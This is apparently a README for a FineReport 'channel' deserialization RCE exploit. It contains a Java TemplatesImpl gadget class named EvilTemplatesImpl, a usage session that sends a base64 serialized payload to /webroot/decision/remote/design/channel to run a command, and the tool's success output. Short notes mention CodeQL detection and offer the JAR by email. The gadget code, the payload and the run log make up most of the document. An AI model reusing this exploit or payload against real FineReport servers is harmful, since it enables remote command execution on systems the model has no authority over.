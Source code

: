 
**EvilTemplatesImpl.java**

```java
package evil;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class EvilTemplatesImpl extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}

    public EvilTemplatesImpl() throws Exception {
        super();
        System.out.println("Hello TemplatesImpl");
//        Runtime.getRuntime().exec("touch /tmp/success_xyw_04");
    }
}
```

使用：

```cmd
> java -jar .\FineReport_channel_RCE.jar
[+] Usage: java CommandLineArgsExample -t|--target <ip> -c|--cmd <command>

> java -jar .\FineReport_channel_RCE.jar -t 192.168.47.130 -c "touch /tmp/success_FineReport_RCE"
[+] Target IP: 192.168.47.130
[+] Command: touch /tmp/success_FineReport_RCE
[+] Base64 Payload: H4sIAAAAAAAAAK1Vz28bRRT+xnZsxzi/XJK0/EygpUlKdwttKa0jQpKmqoXTliRKD0ayJpvBWdhf7M62Gw499A/gxIV/AA7kEoRK1QMS1156hwv/AAcEB6SKwtvZTWwTS7RQK9rMvJn3fW++9+bNzi/oC3yMf8RvcC2UpqVd803XN+X2+6EIxec/nvr24dzt3SwyNeQC81NRR8lwbY/7
XLq+xFg99tRjT31x316NPAAZAj7h+i2Ne9zYEhr52a4TaBuCO7FDoC3QqO314DN2+9GVX29lkOli+QS3wOooer7rCV9uS1QSVos7LX1V+qbTIkZim+vBZriWJQxpJuM9zEBLeTcs0Y7g4e9fHLvr7J7LAJEnMeyG0gvltYTXFMHNHB0rS0QXCEkLQkfrIIw4xaOZjhS+wy0tCixpaNLnkbYmbM/iUgQ1+t9//eoP
zs7Xp7PI1zDQNJ1N4cgrob0h/BoGm+TgBJaQNbJHDZSaG9tSGO6mCCSyjcZCA/mmYfGAppVGhwyLsa1aR1/T4baIJcvVMdL85wm6M9a2JxnDX/QLfUX03p9HRlutnxItaImRPdNY2Plt/I98ce3n1Jz/4P6je9/T8hnMlpDHS/14GRNFTJbwCl4t4GgBxxj61ak+dH2bwZ+qk3g6iaeTeHoinq7E0/fE05V4+sWr
y9VGz9221d4bCN/kFpWmr6+mQx6n+zJ3Ni3hV6fXGXKLpCDDUN10RKL1Wpx5RpXkGtxa5+RH89SYk1tmwHC4Lm6QSEv06cpglaG46RqhTYljOPlExyHXrSQuIlj4/4djKC1FhvBUfRfwGsOXT6bvv0awKW394tryfGQGNTKp6/1UclI0UziGs/8pCoZCqiXD/FNQMj9rOqZ8hyE7Nb1ewHHSdtUNfUNcMuOqGDtQ
CFp8k8o4gucKmCpjGjMMhy4Ly3InuvYVcKKM13GSMHpXFMO7j5szP3SkaQt9fiOgS2XItbRfMJx/XIg9l/3CoajbjaTDOtzRZbcDKej2ZqmhMIwmPcR0qYMQOLVgwe3qHky3mbLkxTOLAEenDjZuVQqzhpVqP9LesJIctQCdMtESMp3HMNP1A9uqZbyBN0s4hdMMk9INja0JXdoeSWIYIgial+jurwiPXq3myuJS
EWfpootIGAzHe4XVYaI2GSMQwzm8HTOcZxhYldz4eJl7qmdgEn3U/eJfDnRiFJFBP83m4gcj7p678YOIEn3ztAE0eoa+E8kiyhhQzgyDGFLrpD5GyKOSQh5SsM+msDVl7QFbVrAzyWJP2FGMkUc8Gsdhou8koErejzuj9g/MfAf2DTKV7B3k2mSDKu4hchwmkooiLScOKeke7PMkhUawTMEeJb+YfOgrZFn9Ls5U
3rqDC9d3VTxVpRWjP7ygmF6kN7ii7lPXbfFuMkTxCzcQ/Q0HdAVKvwgAAA==
[+] Target URL: http://192.168.47.130:37799/webroot/decision/remote/design/channel
[+] Response code: 200
[+] Success !!!
```
## CodeQL
使用 CodeQL 的反序列化规则可以直接扫描出来此漏洞

如果你有研究需求需要 JAR 文件，请通过邮箱联系我获取。





